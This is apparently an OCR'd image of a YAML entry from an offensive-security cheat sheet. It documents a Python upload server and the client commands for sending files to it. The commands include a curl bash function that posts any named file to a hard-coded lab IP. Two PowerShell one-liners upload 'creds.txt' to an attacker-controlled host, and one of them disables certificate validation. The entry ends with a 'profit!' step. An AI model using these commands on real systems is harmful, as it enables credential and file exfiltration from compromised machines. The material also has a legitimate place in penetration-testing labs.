 ```yaml
---
functions:
  file-transfer:
    - description: This python script will handle file uploads and supports POST requests
      code: |
        usage: http-server.py [-h] [-p PORT] [-l LISTEN] [-n]

        A Better Python3 HTTP Server

        optional arguments:
          -h, --help            show this help message and exit
          -p PORT, --port PORT  the port for the http service to listen on
          -l LISTEN, --listen LISTEN
                                the interface to bind to
          -n, --no-ssl          do not serve https / ssl

        UPLOAD:
          Start the Server - python3 http-server.py
          Pick your method:

          - - - curl - - - 
          curl -k -i -X POST -F 'filename=@<filename>' -F 'name=file' http(s)://<ip>:<port>
          
          TIP - cp paste this function and run "get <file>"

          get(){
          file=$1
          ip="10.10.14.23"
          port="8000"
          #echo $file $ip $port
          output=$(curl -k -i -X POST -F filename=@"$file" -F name=file "http://$ip:$port")
          if [[ "$output" == *"success"* ]]; then
            echo "[+] Uploaded! --> $file"
          else
            echo "[-] Upload Failed! --> $file $ip:$port"
          fi
          }
          
          - - - powershell - - - 
          powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
          powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')
          (3) manually browsing to the ip and port
          (4) profit!
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/http-server.py

---
```

